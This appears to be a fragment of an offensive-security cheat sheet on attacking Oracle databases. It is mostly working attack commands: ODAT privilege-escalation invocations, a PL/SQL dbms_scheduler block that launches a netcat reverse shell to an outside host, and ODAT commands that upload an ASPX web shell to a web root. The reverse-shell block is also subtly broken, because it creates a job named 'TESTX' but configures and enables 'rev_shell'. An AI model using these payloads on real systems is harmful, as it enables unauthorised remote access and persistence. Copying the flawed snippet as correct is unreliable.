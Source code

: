 `SQL> Select * from session_privs;` &#x20;

**Remove the exploit using:**&#x20;

`drop index exploit_1337;`&#x20;

#### ODAT

```
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD -h #Get module Help
```

## reverse shell #1

```
begin
dbms_scheduler.create_job( job_name    => 'TESTX',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end;
/
```

If your trying to do this with sqlplus you need to put a / at the end to complete the operation

## reverse shell #1

```
find vulnarable modules:
odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba

upload shell:
./odat-libc2.12-x86_64 dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.aspx /usr/share/webshells/aspx/cmdasp.aspx
```
